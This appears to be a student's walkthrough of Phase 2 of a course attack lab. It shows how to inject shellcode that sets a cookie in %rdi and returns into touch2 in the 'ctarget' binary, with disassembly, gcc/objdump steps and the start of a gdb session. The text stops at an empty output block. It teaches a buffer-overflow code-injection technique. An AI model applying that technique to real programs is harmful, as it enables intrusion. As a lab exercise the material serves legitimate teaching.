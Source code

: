 # PHASE 2

Phase 2 involves injecting a small code and calling function touch2 while making it look like you passed the cookie as an argument to touch2

If you look inside the ```rtarget_dump.s``` fil and search for touch2, it looks something like this:
```assembly
0000000000401945 <touch2>:
  401945:       48 83 ec 08             sub    $0x8,%rsp
  401949:       89 fa                   mov    %edi,%edx
  40194b:       c7 05 c7 3b 20 00 02    movl   $0x2,0x203bc7(%rip)        # 60551c <vlevel>
  401952:       00 00 00 
  401955:       39 3d c9 3b 20 00       cmp    %edi,0x203bc9(%rip)        # 605524 <cookie>
  40195b:       75 20                   jne    40197d <touch2+0x38>
  40195d:       be d0 34 40 00          mov    $0x4034d0,%esi
  401962:       bf 01 00 00 00          mov    $0x1,%edi
  401967:       b8 00 00 00 00          mov    $0x0,%eax
  40196c:       e8 8f f4 ff ff          callq  400e00 <__printf_chk@plt>
  401971:       bf 02 00 00 00          mov    $0x2,%edi
  401976:       e8 77 05 00 00          callq  401ef2 <validate>
  40197b:       eb 1e                   jmp    40199b <touch2+0x56>
  40197d:       be f8 34 40 00          mov    $0x4034f8,%esi
  401982:       bf 01 00 00 00          mov    $0x1,%edi
  401987:       b8 00 00 00 00          mov    $0x0,%eax
  40198c:       e8 6f f4 ff ff          callq  400e00 <__printf_chk@plt>
  401991:       bf 02 00 00 00          mov    $0x2,%edi
  401996:       e8 33 06 00 00          callq  401fce <fail>
  40199b:       bf 00 00 00 00          mov    $0x0,%edi
  4019a0:       e8 ab f4 ff ff          callq  400e50 <exit@plt>
  ```
If you read the instruction pdf, it says, "Recall that the first argument to a function is passed in register %rdi."

So our goal is to modify the %rdi register and store our cookie in there.

So you have to write some assembly code for that task, create a file called ```phase2.s``` and write the below code, replacing the cookie with yours from the previous phase.
```assembly
  movq $0x3451d86d,%rdi /* move your cookie to register %rdi */
  retq                  /* return */
```
Now you need the byte representation of the code you wrote above, compile it with gcc then dissasemble it.

```ssh
gcc -c phase2.s
objdump -d phase2.o  > phase2.d 
```
Now open the file phase2.d and you will get something like below

```ssh
Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 6d d8 51 34 	mov    $0x3451d86d,%rdi
   7:	c3                   	retq   
```
The byte representation of the assembly code is ```48 c7 c7 6d d8 51 34 c3```.

Now we need to find the address of rsp register:

Run ctarget through gdb
```gdb ctarget```

set a breakpoint at getbuf
```b getbuf```

run ctarget
```r```

Dissasemble it
```disas```

You will get something like below:
```

```
